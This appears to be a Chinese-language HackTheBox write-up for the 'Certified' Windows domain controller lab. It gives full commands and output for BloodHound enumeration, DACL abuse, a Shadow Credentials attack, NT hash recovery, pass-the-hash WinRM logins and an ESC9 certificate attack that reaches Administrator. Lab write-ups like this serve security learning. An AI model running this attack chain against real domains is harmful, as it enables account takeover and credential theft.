








## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

As is common in Windows pentests, you will start the Certified box with credentials for the following account: Username: `judith.mader` Password: `judith09`

## Nmap

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# nmap -sSCV -Pn -p- Certified.htb     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 20:00 CST
Stats: 0:02:15 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 90.13% done; ETC: 20:02 (0:00:15 remaining)
Stats: 0:03:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 61.90% done; ETC: 20:04 (0:00:25 remaining)
Stats: 0:03:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 61.90% done; ETC: 20:04 (0:00:25 remaining)
Nmap scan report for Certified.htb (10.10.11.41)
Host is up (0.083s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-06 18:49:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-12-06T18:50:32+00:00; +6h45m59s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-12-06T18:50:32+00:00; +6h45m59s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-06T18:50:32+00:00; +6h45m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-12-06T18:50:32+00:00; +6h45m59s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
49772/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-12-06T18:49:56
|_  start_date: N/A
|_clock-skew: mean: 6h45m58s, deviation: 0s, median: 6h45m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 254.91 seconds
```

## GetAllUserName

```
┌──(root㉿kali)-[~kali/Certified]
└─# crackmapexec smb certified.htb -u "judith.mader" -p "judith09" --rid-brute | grep SidTypeUser
SMB  Certified.htb   445    DC01      500: CERTIFIED\Administrator (SidTypeUser)
SMB  Certified.htb   445    DC01      501: CERTIFIED\Guest (SidTypeUser)
SMB  Certified.htb   445    DC01      502: CERTIFIED\krbtgt (SidTypeUser)
SMB  Certified.htb   445    DC01      1000: CERTIFIED\DC01$ (SidTypeUser)
SMB  Certified.htb   445    DC01      1103: CERTIFIED\judith.mader (SidTypeUser)
SMB  Certified.htb   445    DC01      1105: CERTIFIED\management_svc(SidTypeUser)
SMB  Certified.htb   445    DC01      1106: CERTIFIED\ca_operator (SidTypeUser)
SMB  Certified.htb   445    DC01      1601: CERTIFIED\alexander.huges (SidTypeUser)
SMB  Certified.htb   445    DC01      1602: CERTIFIED\harry.wilson (SidTypeUser)
SMB  Certified.htb   445    DC01      1603: CERTIFIED\gregory.cameron (SidTypeUser)
```

## Bloodhound

```
┌──(root㉿kali)-[~kali/Certified]
└─# bloodhound-python -u judith.mader -p 'judith09' -c All -d certified.htb -ns 10.10.11.41       
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 17S
```

导入到bloodhoundGUI里面进行分析

发现Judith用户可以更改 **`Management`** 组的所有者或修改该组的**访问控制列表 (ACL)**



Management组可以对其中的SVC进行写入



SVC可以完全控制CA\_OPERATOR





## User

修改 **`Management`** 组的 ACL，授予 **`judith.mader`** 用户 **`WriteMembers`** 权限，使其能够管理该组的成员

```
┌──(root㉿kali)-[~kali/Certified]
└─# impacket-dacledit  -action 'write' -rights 'WriteMembers' -target-dn "CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB" -principal "judith.mader" "certified.htb/judith.mader:judith09"

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20241206-205722.bak
[*] DACL modified successfully!
                                     
```

把Judith自己加入到Management组里面

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# bloodyAD --host 10.10.11.41 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"

[+] judith.mader added to Management
```

- [域持久性：Shadow Credentials - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/331955.html)

- [KillingTree/pywhisker: Python version of the C# tool for "Shadow Credentials" attacks (github.com)](https://github.com/KillingTree/pywhisker)

这个工具如果出现args的报错，要到`main()`函数中添加`globals args`，在args的parse调用之前

使用 `pywhisker.py` 工具进行 Kerberos 认证绕过操作，并且通过修改目标对象的 `msDS-KeyCredentialLink` 属性来生成并存储与目标相关的证书和密钥

```
┌──(root㉿kali)-[/home/kali/Certified/pywhisker/pywhisker]
└─# python pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target management_svc --action add

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 7ba66598-d473-200b-e335-73693201fe6a
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: oigNgAOY.pfx
[*] Must be used with password: F7ddKVbzqkaPtLgqVxFX
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
                                                                           
```

然后请求获取management\_svc的TGT票据，如果报错需要使用ntpdate同步时区

使用 `PKINITtools` 中的 `gettgtpkinit.py` 脚本来请求一个 Kerberos TGT（Ticket Granting Ticket），并且使用了之前生成的证书和密钥

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# python gettgtpkinit.py -cert-pfx ../pywhisker/pywhisker/oigNgAOY.pfx -pfx-pass F7ddKVbzqkaPtLgqVxFX certified.htb/management_svc hhh.ccache
2024-12-08 18:59:06,443 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-12-08 18:59:06,456 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-12-08 18:59:28,228 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-12-08 18:59:28,228 minikerberos INFO     07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6
INFO:minikerberos:07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6
2024-12-08 18:59:28,230 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

设置环境变量

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# export KRB5CCNAME=/home/kali/Certified/PKINITtools/hhh.ccache
                                                    
```

使用 `PKINITtools` 中的 `getnthash.py` 脚本，通过已经获得的 TGT 来请求并恢复 `management_svc` 账户的 NT hash

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# python getnthash.py -key 07229e48b98f6800f3c17aaef3a49815c7b1fff0881969a3756856366a8a87f6 certified.htb/management_svc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/kali/Certified/PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/Certified/PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

有了NThash就可以使用Evil-winrm远程登录

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# evil-winrm -i certified.htb -u management_svc -H "a091c1832bcdd4677c28b5a6a1295584"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                         
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\management_svc\desktop> cat user.txt
```



## Root



management\_svc可以完全控制ca\_operator

尝试修改ca的密码

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# pth-net rpc password "ca_operator" "12345678" -U "certified.htb"/"management_svc"%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584"  -S "DC01.certified.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
```

检查是否修改成功

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# nxc smb 10.10.11.41 -u ca_operator -p 12345678 
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)                                                                                                                                
SMB         10.10.11.41     445    DC01   
```

### No Security Extension - ESC9

- [AD CS Domain Escalation | HackTricks](https://book.hacktricks.xyz/cn/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#id-5485)

是使用 `Certipy` 工具查找和获取与 `judith.mader@certified.htb` 用户相关的证书信息，并获取 `certified-DC01-CA` 证书颁发机构 (CA) 的配置

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad find -u judith.mader@certified.htb -p judith09 -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20241208202644_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241208202644_Certipy.txt'
[*] Saved JSON output to '20241208202644_Certipy.json'
```



发现存在`NoSecurityExtension`，因此可以使用ESC9来进行攻击

使用 `Certipy` 工具将 NT hash (`a091c1832bcdd4677c28b5a6a1295584`) 更新到 `ca_operator` 账户，并修改了该账户的 `userPrincipalName` (UPN) 为 `Administrator`

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

成功请求到一个证书，且该证书与 `Administrator` 账户关联（尽管请求的是 `ca_operator` 用户）。这意味着，现在有了一个可以代表 `Administrator` 账户的证书。

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad req -username ca_operator@certified.htb -p 12345678 -ca certified-DC01-CA -template CertifiedAuthentication -debug     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.237.2'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'                                     
```

使用 `Certipy` 工具，通过 `administrator.pfx` 证书文件以 `administrator@certified.htb` 用户身份进行 Kerberos 认证，并成功获取 TGT 和 NT hash

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
                                                                                                                         
```

最后通过evil-winrm登录获取到root.txt

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# evil-winrm -i certified.htb -u administrator -H "0d5b49608bbce1751f708748f67e2d34" 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
```



## Summary

这个machine是主要关于AD域内证书的

USER：judith具有WriteOwner权限可以将自己写入这个组，由于Management组对svc的权限可以写入，因此修改了他的 `msDS-KeyCredentialLink` 属性，然后获取svc的TGT，最终恢复他的NThash

ROOT：首先检查了judith的证书配置，发现存在ESC9，由于management\_svc对ca\_operator具有GenericAll权限，因此可以修改其密码，以及`userPrincipalName`修改为administrator。(某种程度上，`svc` 账户如果在证书颁发机构（CA）上拥有 `GenericAll` 或其他高级权限，它就可以实现类似于管理员的控制，特别是在证书管理和属性更改方面)。请求ca获取到代表administrator的证书，最后通过这个伪证书获取到administrator的NThash。
